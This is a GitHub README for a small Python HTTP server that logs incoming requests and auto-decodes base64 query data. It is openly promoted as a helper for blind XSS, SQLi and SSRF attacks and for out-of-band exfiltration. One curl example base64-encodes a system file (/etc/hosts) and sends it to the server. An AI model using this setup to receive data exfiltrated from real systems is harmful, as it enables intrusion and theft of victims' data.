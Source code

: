 # simple-http-server
A simple extension of Python's http.server module. Serves files in the local directory, but also prints request data to the host. Can also be used for file transfer.

This utility makes an excellent companion to any kind of "blind" web-based attack, including XSS, SQLi, SSRF, etc

## Instructions

Clone the repo:
```bash
git clone https://github.com/4wayhandshake/simple-http-server.git
```

Make it executable:
```bash
cd simple-http-server
chmod +x SimpleServer.py
```

Run it, optionally specify a port:
```bash
./SimpleServer.py port [-v] [-h]
```

> `-v, --verbose` : enables verbose mode. This allows you to see all request headers. 
> `-h, --help` : show the help text

If you need quick and easy index page, just use **index.html** and **style.css** from this repo.

>:warning: Note: there is a special query string parameter: `b64`
>
>If you send base64-encoded data via a GET request using that query parameter, the server will automatically decode the data. This feature is very useful for out-of-band data exfiltration. Please see the base-64 entry under [Examples](#examples) for more details.

## Examples

> The following are just normal cURL commands, but might be handy reminders:

**Download** a file adjacent to the server:

```bash
curl http://127.0.0.1:8000/my_script.js
```

**Send data** in x-www-urlencoded format:

```bash
curl -d 'field=value&field2=value2' http://127.0.0.1:8000
```

**Upload** a file to the server:

```bash
curl -X POST -F "file=@./beaver.jpg" http://127.0.0.1:8000
```

Send **base-64 data** and have it automatically decoded:

```bash
curl http://127.0.0.1:8000?b64=$(cat /etc/hosts | base64 -w 0)
```



Please :star: this repo if you found it useful!


---

Enjoy,

:handshake::handshake::handshake::handshake:
@4wayhandshake
